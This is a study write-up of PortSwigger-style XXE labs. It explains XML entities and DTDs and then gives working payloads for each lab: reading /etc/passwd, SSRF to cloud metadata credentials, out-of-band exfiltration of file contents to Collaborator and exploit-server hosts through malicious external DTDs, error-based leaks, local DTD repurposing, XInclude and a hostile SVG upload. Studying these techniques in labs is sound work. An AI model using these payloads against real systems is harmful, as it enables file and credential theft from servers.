# What is XML?

XML is a language designed for storing and transporting data. Like HTML, XML uses a tree-like structure of tags and data.Unlike HTML, XML does not use predefined tags, and so tags can be given names that describe the data.

## What are XML entities?

```
<  = &lt;
> = &gt;
% = &#x25;
```


DOCTYPE

The XML document type definition (DTD) contains declarations that can define the structure of an XML document.


XML allows custom entities to be defined within the DTD. For example:
`<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`

and the definition of  custom external entities is located outside of the DTD :
`<!DOCTYPE foo [ <!ENTITY myentity SYSTEM "http://website.com"]>`
`<!DOCTYPE foo [ <!ENTITY myentity SYSTEM "file:///etc/passwd" > ]>`


XML entities are referenced like this :
`&myentity;`

 
XML parameter entities:  
are a special kind of XML entity which can only be referenced elsewhere within the DTD.

`<!ENTITY % myparameterentity "my parameter entity value" >`

parameter entities are referenced using the percent character:
`%myparameterentity;`


# What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. also u can do a ssrf attack.


## How do XXE vulnerabilities arise?

Some applications use the XML format to transmit data between the browser and the server. Applications that do this virtually always use a standard library or platform API to process the XML data on the server. XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.


## What are the types of XXE attacks?

- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.


#### Note

With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.


# Lab: Exploiting XXE using external entities to retrieve files

###### a shopping application checks for the stock level of a product by submitting the following XML to the server:





lets see if productId value can be returned in response:





now lets retreive the file passwd in response .

payload :
`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd"> ]>`






# Lab: Exploiting XXE to perform SSRF attacks

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://196.254.169.254"> ]>`

the output shows a latest folder so visit it 

latest -> meta-data-> iam -> security-credentials -> admin







# Lab: Blind XXE with out-of-band interaction






notice that the productId and storeId are not returned in response so we lets try blind xxe using out-of-bound-techniques.


```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://0642fue0c5psmm51a6i5y3dbl2rufk39.oastify.com"> ]>
```











# Lab: Blind XXE with out-of-band interaction via XML parameter entities


```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://0642fue0c5psmm51a6i5y3dbl2rufk39.oastify.com"> ]>
```





##### lets try xml parameter entities:

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://6ho8q0p6nb0yxsg7lctb99ohw824q0ep.oastify.com"> %xxe; ]>
```







# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD


`<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "http://zork3jpq8slnyd3hve0e19vvwm2dq3es.oastify.com"> %ext;]>`

##### we detected an XXE vulnerability but now we want to exfiltrate sensitive data:

```
<!DOCTYPE foo [
<!ENTITY % file  SYSTEM "file:///etc/hostname">
<!ENTITY % ext SYSTEM "http://qb5bqachvj8el4q8i5n5o0imjdp8dy1n.oastify.com/?filecontent=%file;">
%ext;
]>
```


- lets declare a file entity that has the hostname file's content.
- declaring ext entity which send a request to burp collaborator with a `filecontent` parameter that has `hostname file's content` 
- send request and wait for 10 seconds 
- go to burp collaborator and click poll now 
- click on the http request one 

notice that `filecontent` parameter's value didn't evaluated to the hostname content  this happen, because when fetching the url it will not expand `%file;` entity 


**on exploit server add this in body :**
```
<!ENTITY % file  SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; ext SYSTEM 'http://wjjhygkn3pgktayeqbvbw6qsrjxfl59u.oastify.com/?file_content=%file;'>">
%eval;
%ext;
```

what happens here is :
- declaring file entity 
- declaring eval entity which will declare ext entity after reference eval 
- ext entity  will fetch the given request with a `file_content parameter` = `%file;` 

what will happen after parsing %eval and %ext: 

when %eval get referenced ext entity will loaded.
for this reason , `%file;` entity will replaced with its defined value 
after this `%ext;` entity will get referenced  which will fetch the given url but this time it will have hostname file's content.


then go back to burp repeater and add this :

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0a00006204de30ff808f5789012e0007.exploit-server.net/exploit"> %xxe; ]>
```
here  xxe entity will fetch the exploit file that has malicious payload and parse it 



submit the solution .


#### Note

This technique might not work with some file contents, including the newline characters contained in the `/etc/passwd` file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.


# Lab: Exploiting blind XXE to retrieve data via error messages

adding  the following payload in request will send a request to exploit file that exist in  attacker's server.
```
<!DOCTYPE foo [ <!ENTITY % A SYSTEM "https://exploit-0ae90046034ca1af8030d56201190013.exploit-server.net/exploit"> %A; ]>
```

adding the following payload in exploit server will declaring a file entity that has "etc/passwd" file's content , declaring eval that's definition will declare a new entity `xxe` which will access a non existence file that's name is file entity .
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; xxe SYSTEM  'file:///banki/%file;'>"> %eval; %xxe;
```









```
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; xxe SYSTEM  'file:///banki/%file;'>"> %eval; %xxe; ]>
```
if u try  adding the malicious payload directly in request , it's gonna give u the following :



# # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

### what is External DTD and internal DTD

An **external DTD** is stored in a separate file.  

An **internal DTD** is written directly inside the XML document.  (on request)


```
<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///banki/%file;'>"> %eval; %error; ]>
```



Inside an **internal DTD**, a parameter entity (`%file;`) cannot be expanded inside the value of another parameter entity declaration (`%eval`).

 this happened because  in internal DTD ,parameter entities have stricter rules. One of those rules is that a parameter entity reference cannot appear within the markup of another declaration.

but if u do it in external DTD like previous labs when we used an exploit server to load exploit file , we can expanding `%file;`.

When an external DTD is involved, XML parsers relax this restriction and allow nested parameter-entity expansion in that context.


## In This Lab

out-of-band connections are blocked, which means  the external DTD cannot be loaded from a remote location.

### Locating an existing DTD file to repurpose

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>`

you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search


we are going to use a hybrid DTD which means :
the XML document uses both:
 An internal DTD (inside the XML document)
 An external DTD (loaded from another file)

 we need to find an external DTD file then redefine an entity that exist in external DTD with our trigger error payload.

 ```
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///banki/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'> 
%local_dtd; 
]>
 ```



payload explanation : 

&#x25 -> %
&#x26 -> &
&#x27 -> '

1- declaring a local_dtd which used for loading docbookx.dtd external file 
2- redefining an existing enitity which is ISOamso that exist in local_dtd.
3- declaring a file entity used to load passwd file's content
4- declaring eval entity that used for declaring error entity.
5- error entity used to trigger parsing error

# Lab: Exploiting XInclude to retrieve files

### Xinclude attack and why we use it

we use this attack when applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.
like placing client submitted data into backend SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document.

the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.
`<product>1</product>`


```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

explanation :
1- creating xml element   foo 
2- define the xi namespace . this tells the parser whenever u see an element starting with xi  treat it as xinclude tag
3- including resource.  tells parser to load the content of the given path and parse it as a plain text 


### in this lab

it tells u that server embeds the user input inside a server-side XML document.



since we can't control the entire xml document to add `DOCTYPE` we'll use  Xinclude attack









# Lab: Exploiting XXE via image file upload

svg image file is xml based format.

in this lab we are gonna upload svg image file on user avatar when comment.

create a file and add the following :

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

save it as .svg

now post a comment on a blog post, and upload this image as an avatar.
then go back and right click on the uploaded image -> inspect -> click on the link .
submit the hostname


# XXE attacks via modified content type

`application/x-www-form-urlencoded`

Some web sites expect to receive requests in this format  but will tolerate other content types, including XML.

